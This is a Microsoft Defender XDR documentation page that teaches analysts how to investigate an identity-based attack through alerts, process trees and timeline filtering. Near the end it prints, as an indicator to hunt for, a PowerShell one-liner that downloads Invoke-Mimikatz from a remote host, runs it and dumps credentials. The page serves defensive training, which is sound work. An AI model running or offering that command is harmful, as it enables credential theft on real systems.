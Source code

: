 ```yaml
---
title: Example of an identity-based attack
description: Step through an example analysis of an identity-based attack.
ms.service: defender-xdr
f1.keywords: 
  - NOCSH
ms.author: diannegali
author: diannegali
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection: 
  - m365-security
  - m365solution-firstincident
  - highpri
  - tier1
ms.topic: conceptual
search.appverid: 
  - MOE150
  - MET150
ms.date: 04/20/2021
---
```


# Example of an identity-based attack

[!INCLUDE [Microsoft Defender XDR rebranding](../includes/microsoft-defender.md)]

**Applies to:**
- Microsoft Defender XDR

Microsoft Defender for Identity can help detect malicious attempts to compromise identities in your organization. Because Defender for Identity integrates with Microsoft Defender XDR, security analysts can have visibility on threats coming in from Defender for Identity, such as suspected Netlogon privilege elevation attempts.

## Analyzing the attack in Microsoft Defender for Identity

Microsoft Defender XDR allows analysts to filter alerts by detection source on the **Alerts** tab of the incidents page. In the following example, the detection source is filtered to **Defender for Identity**. 

:::image type="content" source="/defender/media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtering the detection source in Microsoft Defender for Identity" lightbox="/defender/media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Selecting the **Suspected overpass-the-hash attack** alert goes to a page in Microsoft Defender for Cloud Apps that displays more detailed information. You can always find out more about an alert or attack by selecting **Learn more about this alert type** to read a [description of the attack](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) and remediation suggestions.
 
:::image type="content" source="/defender/media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="A suspected overpass-the-hash attack alert" lightbox="/defender/media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## Investigating the same attack in Microsoft Defender for Endpoint

Alternatively, an analyst can use Defender for Endpoint to learn more about the activity on an endpoint. Select the incident from the incident queue, then select the **Alerts** tab. From here, they can identify the detection source as well. A detection source labeled as EDR stands for Endpoint Detection and Response, which is Defender for Endpoint. From here, the analyst selects an alert detected by EDR.

:::image type="content" source="/defender/media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="An Endpoint Detection and Response in the Microsoft Defender for Endpoint portal" lightbox="/defender/media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

The alert page displays various pertinent information such as the impacted device name, username, status of auto-investigation, and the alert details. The alert story depicts a visual representation of the process tree. The process tree is a hierarchical representation of parent and child processes related to the alert.

:::image type="content" source="/defender/media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="An alert process tree in the Microsoft Defender for Endpoint" lightbox="/defender/media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Each process can be expanded to view more details. Details that an analyst can see are the actual commands that were entered as part of a malicious script, outbound connection IP addresses, and other useful information.

:::image type="content" source="/defender/media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="The process details in the Microsoft Defender for Endpoint portal" lightbox="/defender/media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
By selecting **See in timeline**, an analyst can drill down even further to determine the exact time of the compromise. 

Microsoft Defender for Endpoint can detect many malicious files and scripts. However, due to many legitimate uses for outbound connections, PowerShell, and command-line activity, some activity would be considered benign until it creates a malicious file or activity. Therefore, using the timeline helps analysts to put the alert into context with the surrounding activity to determine the original source or time of the attack that otherwise is obscured by common file system and user activity. 

To use the timeline, an analyst would start at the time of the alert detection (in red) and scroll down backwards in time to determine when the original activity that led to the malicious activity actually started. 

:::image type="content" source="/defender/media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Analyst's start time for the alert detection" lightbox="/defender/media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

It is important to understand and distinguish common activity such as Windows Update connections, Windows Trusted Software activation traffic, other common connections to Microsoft sites, third-party Internet activity, Microsoft Endpoint Configuration Manager activity, and other benign activity from suspicious activity. One way to distinguish is by using timeline filters. There are many filters that can highlight specific activity while filtering out anything that the analyst does not want to view. 

In the image below, the analyst filtered to view only network and process events. This filter criteria allows the analyst to see the network connections and processes surrounding the event where Notepad established a connection with an IP address, which we also saw in the process tree. 

:::image type="content" source="/defender/media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="How Notepad was used to make a malicious outbound connection" lightbox="/defender/media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

In this particular event, Notepad was used to make a malicious outbound connection. However, often attackers will use iexplorer.exe to establish connections to download a malicious payload because ordinarily iexplorer.exe processes are considered regular web browser activity.

Another item to look for in the timeline would be PowerShell uses for outbound connections. The analyst would look for successful PowerShell connections with commands such as `IEX (New-Object Net.Webclient)` followed by an outbound connection to a website hosting a malicious file. 

In the following example, PowerShell was used to download and execute Mimikatz from a website:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
An analyst can quickly search for keywords by typing in the keyword in the search bar to display only events created with PowerShell. 

## Next step

See the [phishing](first-incident-path-phishing.md) investigation path.

## See also

- [Incidents overview](incidents-overview.md)
- [Manage incidents](manage-incidents.md)
- [Investigate incidents](investigate-incidents.md)
[!INCLUDE [Microsoft Defender XDR rebranding](../includes/defender-m3d-techcommunity.md)]
